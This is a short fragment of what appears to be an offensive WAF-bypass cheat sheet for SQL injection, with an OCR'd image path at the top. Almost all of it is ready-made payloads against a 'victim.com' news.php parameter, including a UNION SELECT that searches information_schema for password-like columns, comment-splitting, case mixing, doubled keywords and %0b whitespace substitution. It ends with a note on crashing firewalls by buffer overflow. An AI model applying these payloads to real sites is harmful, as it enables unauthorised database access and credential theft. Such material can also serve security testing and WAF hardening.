 `   union select 1,2,unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name))),4,5 /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)?`



## Bypass with Comments

SQL comments allow us to bypass a lot of filtering and WAFs.

```
 Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--

```

## Case Changing

Some WAFs filter only lowercase SQL keyword.

Regex Filter: /union\\sselect/g

    http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--

## Replaced Keywords

Some application and WAFs use preg_replace to remove all SQL keyword.
So we can bypass easily.

    http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--

Some case SQL keyword was filtered out and replaced with whitespace. So
we can use "%0b" to bypass.

    http://victim.com/news.php?id=1+uni%0bon+se%0blect+1,2,3--

For Mod_rewrite, Comments "/\*\*/" cannot bypassed. So we use "%0b"
replace "/\*\*/".

    Forbidden: http://victim.com/main/news/id/1/**/
    |
    |/**/lpad(first_name,7,1).html
    Bypassed : http://victim.com/main/news/id/1%0b
    |
    |%0blpad(first_name,7,1).html

## Advanced Methods

Crash Firewall via doing Buffer Over Flow.

1\) Buffer Overflow / Firewall Crash: Many Firewalls are developed in
C/C++ and we can Crash them using Buffer Overflow.
